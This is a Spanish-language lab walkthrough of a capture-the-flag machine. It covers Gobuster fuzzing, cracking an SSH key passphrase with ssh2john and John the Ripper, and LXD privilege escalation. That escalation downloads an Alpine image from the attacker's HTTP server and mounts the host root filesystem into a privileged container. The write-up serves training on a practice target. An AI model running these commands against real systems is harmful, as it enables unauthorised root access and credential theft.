






NMAP

WEB
Posible usuario:
Fuzzing
Usamos Gobuster para decubrir directorios:
gobuster dir -u http://10.10.74.161/ -w /usr/share/wordlists/dirb/common.txt 

 


Convertimos la clave privada SSH para John The Ripper:
ssh2john secretKey > pass.hash
Crackeamos el hash con John The Ripper:
john pass.hashColocamos los permisos necesarios para la SSH key:
chmod 600 secretKeySSH

User Flag

Privilege Escalation
Descargar y usar Alpine Linux como contenedor para escalar privilegios:
Descargamos de build-alpine y ejecutamos:
sudo bash build-alpineTransfiera la imagen del contenedor a través de un servidor HTTP Python:
wget 10.8.67.209:8001/alpine-v3.13-x86_64-20210218_0139.tar.gz
lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimagelxc init alpine privesc -c security.privileged=trueConfigurando e iniciando el contenedor:
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=truelxc start privesclxc exec privesc /bin/shRoot Flag
find / -type f -name "root.txt" 2>/dev/null